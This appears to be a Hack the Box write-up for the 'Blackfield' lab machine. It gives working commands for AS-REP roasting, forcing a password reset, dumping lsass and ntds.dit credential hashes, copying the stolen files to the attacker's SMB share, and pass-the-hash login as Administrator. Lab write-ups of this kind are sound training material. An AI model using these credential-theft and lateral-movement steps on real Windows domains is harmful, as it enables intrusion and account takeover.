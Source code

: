 ```yaml
---
layout: post
title:  "Hack the Box - Blackfield"
category: "Writeups"
---
```


## Enumeration
# NMAP

```bash
PORT     STATE SERVICE       REASON          VERSION
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2022-05-22 11:03:09Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
3268/tcp open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

# SMB
- We can get a valid list of users

## AS-REP
- We get a hit!

```support@blackfield : #00^BlackKnight```

## Enumeration with support
# SMB 
- Nothing

## Evil-WinRM
- Can't login

## Bloodhound
- Observing the support node, we motice the "Outbound Control Rights" which allows us to "ForceChangePassword" to the audit2020 account
- ![[ForceChangePassBH.png]](/images/HTB/Blackfield/ForceChangePassBH.png)
- [We can change the password for the AUDIT2020 user over RPC](https://www.thehacker.recipes/ad/movement/dacl/forcechangepassword)


```bash
rpcclient -U blackfield.local/support 10.10.10.192
```

```bash
setuserinfo2 AUDIT2020 23 'turco123!'
```
- Validate: ![[ChangePassSuccess.png]](/images/HTB/Blackfield/ChangePassSuccess.png)

## Enumeration with Audit2020
# SMB
- We can read the forensic share: ![[forensic-share.png]](/images/HTB/Blackfield/forensic-share.png)
- We find lsass.zip there which can be used to extract hashes
- Instead of using mimikatz, we can use pypykatz

```bash
pypykatz lsa minidump lsass.DMP
```

- We get the NT hash for the svc_backup user

```svc_backup : 9658d1d1dcd9250115e2205d9f48400d```

## Enumeration with svc_backup
- We are good to Win-RM in! ![[svc_backup-WinRM.png]](/images/HTB/Blackfield/svc_backup-WinRM.png)

# Basic Windows Enum

```windows
whoami /all
```
- Output:

```windows
USER INFORMATION
----------------

User Name             SID
===================== ==============================================
blackfield\svc_backup S-1-5-21-4194615774-2175524697-3563712290-1413


GROUP INFORMATION
-----------------

Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```
- The key one here is the "SeBackupPrivilege"

## SeBackupPrivilege
- [Resource to help for escalating privs](https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/)
- We can use a smbserver to transfer files
- [Another resource](https://medium.com/r3d-buck3t/windows-privesc-with-sebackupprivilege-65d2cd1eb960)
- Following the steps in method 1, we can perform the backup to get the Administrator hash
- Transferring files with smb:

Our machine:
```bash
impacket-smbserver turco ./priv -smb2support
```


Victim:
```windows
net use \\10.10.14.6\turco
```

```windows
copy <file> \\10.10.14.6\turco
```

- First run the script provided in the article which creates the E share
- Use robocpy to get the ntds.dit from the E share
```windows
robocopy /b E:\Windows\ntds . ntds.dit
```
- Get system file to decrypt 
```windows
reg save hklm\system c:\temp\system
```
- Download with smb server

- Get hashes with secretsdump
```bash
impacket-secretsdump -system system -ntds ntds.dit LOCAL
```
- ![[Windows/Hard/Blackfield/secretsdump.png]](/images/HTB/Blackfield/secretsdump.png)

```Administrator : 184fb5e5178480be64824d4cd53b99ee```

- Now we can enter the system as Administrator

```bash
impacket-wmiexec blackfield.local/Administrator@10.10.10.192 -hashes aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee
```
- We are in!